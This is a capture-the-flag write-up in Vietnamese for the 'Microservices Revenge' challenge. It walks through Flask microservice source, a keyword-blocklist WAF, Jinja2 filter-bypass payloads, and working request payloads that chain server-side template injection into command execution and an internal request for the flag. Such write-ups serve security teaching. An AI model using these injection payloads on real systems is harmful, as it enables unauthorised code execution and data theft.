

# Microservices Revenge


Giao diện trang web khá giống với bài trước, có một chỗ khác đó là có thêm `?service=flagpage`


Và trang admin service trả về 


Trong file `docker-compose.yml` cho mình biết ở challenge này có 4 service `admin, homepage, gateway, flag`

```
version: '3.7'

x-common-variables: &common-variables
   FLAG: grey{fake_flag}


services:
  admin:
    build: ./admin_page
    container_name: radminpage
    networks:
      - backend

  homepage:
    build: ./homepage
    container_name: rhomepage
    networks:
      - backend

  gateway:
    build: ./gateway
    container_name: rgateway
    ports:
      - 5005:80
    networks:
      - backend

  flag:
    build: ./flag_page
    container_name: rflagpage
    environment:
       <<: *common-variables
    networks:
      - backend

networks:
  backend: {}

```

Mình để ý đến flag service đầu tiên nên mình vào xem source nó như thế nào

```python
from flask import Flask, Response, jsonify
import os

app = Flask(__name__)
app.secret_key = os.environ.get("SECRET_KEY", os.urandom(512).hex())
FLAG = os.environ.get("FLAG", "greyctf{fake_flag}")


@app.route("/")
def index() -> Response:
    """Main page of flag service"""
    # Users can't see this anyways so there is no need to beautify it
    # TODO Create html for the page
    return jsonify({"message": "Welcome to the homepage"})


@app.route("/flag")
def flag() -> Response:
    """Flag endpoint for the service"""
    return jsonify({"message": f"This is the flag: {FLAG}"})


@app.route("/construction")
def construction() -> Response:
    return jsonify({"message": "The webpage is still under construction"})

```

Thì tại đây mình chỉ cần truy cập vào `/flag` là có flag, còn khi mình truy cập qua gateway `?service=flagpage` thì chương trình dẫn mình đến `/construction` như trong nội dung ở ảnh trên

Về `gateway service` như sau

```python
from flask import Flask, request, abort, Response
from requests import Session
from constant import routes, excluded_headers

app = Flask(__name__)

# Extra protection for my page.
banned_chars = {
    "\\",
    "_",
    "'",
    "%25",
    "self",
    "config",
    "exec",
    "class",
    "eval",
    "get",
}


def is_sus(microservice: str, cookies: dict) -> bool:
    """Check if the arguments are sus"""
    acc = [val for val in cookies.values()]
    acc.append(microservice)
    for word in acc:
        for char in word:
            if char in banned_chars:
                return True
    return False


@app.route("/", methods=["GET"])
def route_traffic() -> Response:
    """Route the traffic to upstream"""
    microservice = request.args.get("service", "homepage")

    route = routes.get(microservice, None)
    if route is None:
        return abort(404)

    # My WAF
    if is_sus(request.args.to_dict(), request.cookies.to_dict()):
        return Response("Why u attacking me???\nGlad This WAF is working!", 400)

    # Fetch the required page with arguments appended
    with Session() as s:
        for k, v in request.cookies.items():
            s.cookies.set(k, v)
        res = s.get(route, params={k: v for k, v in request.args.items()})
        headers = [
            (k, v)
            for k, v in res.raw.headers.items()
            if k.lower() not in excluded_headers
        ]

    return Response(res.content.decode(), res.status_code, headers)

```

Khác với bài trước thì chương trình đã thực hiện filter một số từ khoá đối với `cookie` và param `service`

```python
banned_chars = {
    "\\",
    "_",
    "'",
    "%25",
    "self",
    "config",
    "exec",
    "class",
    "eval",
    "get",
}


def is_sus(microservice: str, cookies: dict) -> bool:
    """Check if the arguments are sus"""
    acc = [val for val in cookies.values()]
    acc.append(microservice)
    for word in acc:
        for char in word:
            if char in banned_chars:
                return True
    return False
```

Tại `homepage service` chương trình chỉ thực hiện `render_template` với `user=cookie`

```python
from flask import Flask, request, render_template, Response, make_response

app = Flask(__name__)


@app.route("/")
def homepage() -> Response:
    """The homepage for the app"""
    cookie = request.cookies.get("cookie", "")

    # Render normal page
    response = make_response(render_template("index.html", user=cookie))
    response.set_cookie("cookie", cookie if len(cookie) > 0 else "user")
    return response


if __name__ == "__main__":
    app.run(debug=True)

```

Và `admin service` cũng `render_template_string` với chuỗi có chứa `{user}`

```python
from flask import Flask, Response, render_template_string, request

app = Flask(__name__)


@app.get("/")
def index() -> Response:
    """
    The base service for admin site
    """
    user = request.cookies.get("user", "user")

    # Currently Work in Progress
    return render_template_string(
        f"Sorry {user}, the admin page is currently not open."
    )

```

Tổng hợp các source code này, cộng thêm blacklist mà gateway đã filter thì mình có thể dự đoán được trang web này dính lỗ hổng SSTI, cụ thể là ở `admin service`, và để lấy được flag thì mình cần gửi một GET request đến `http://rflagpage/flag`. Mình dự tính sẽ SSTI to RCE và sử dụng curl để get flag


Nhưng mà mình cần phải bypass qua các filter này

```python
# Extra protection for my page.
banned_chars = {
    "\\",
    "_",
    "'",
    "%25",
    "self",
    "config",
    "exec",
    "class",
    "eval",
    "get",
}
```

Tại đây mình cũng có các payload để bypass các filter này bằng cách sử dụng các param hay header khác 

```python
## Using request object options
request|attr(request.headers.c) #Send a header like "c: __class__" (any trick using get params can be used with headers also)
request|attr(request.args.c) #Send a param like "?c=__class__
request|attr(request.query_string[2:16].decode() #Send a param like "?c=__class__
request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join) # Join list to string
http://localhost:5000/?c={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_ #Formatting the string from get params
```


Và sau một hồi mò mẫm thì mình hoàn thành được payload để RCE

```http
GET /?service=adminpage&a=__class__&b=from_envvar&c=__globals__&d=__builtins__&e=__getitem__&f=__import__&cmd=whoami HTTP/1.1
Host: localhost:5005
Cookie: user= {{os.popen(request.args.cmd).read()}}


```



Đến đây mình thử sử dụng curl lên trang exploit của mình trước nhưng mà không được


Do mình đã không đọc kĩ nên đã bỏ sót curl not found :))


Đến RCE rồi nên mình cũng thử sử dụng chạy script python sử dụng các thư viện để send request. Mình test trên local và thấy thư viện request không tồn tại


Mình search các cách khác thì có thấy sử dụng [`Python HTTP Client`](https://www.digitalocean.com/community/tutorials/python-http-client-request-get-post#python-http-client) thì vẫn ok 


Tạo file script.py

```http
GET /?service=adminpage&a=__class__&b=from_envvar&c=__globals__&d=__builtins__&e=__getitem__&f=__import__&cmd=echo+'from%20http.client%20import%20*%0Aconn%20=%20HTTPConnection(%22rflagpage%22,80)%0Aconn.request(%22GET%22,%22/flag%22)%0Aprint(conn.getresponse().read())'>script.py HTTP/1.1
Host: localhost:5005
Cookie: user= {{os.popen(request.args.cmd).read()}}

```


Kiểm tra tạo file thành công


Thực thi script và nhận được flag


`Flag: grey{55t1_bl4ck1ist_byp455_t0_S5rf_538ad457e9a85747631b250e834ac12d}`
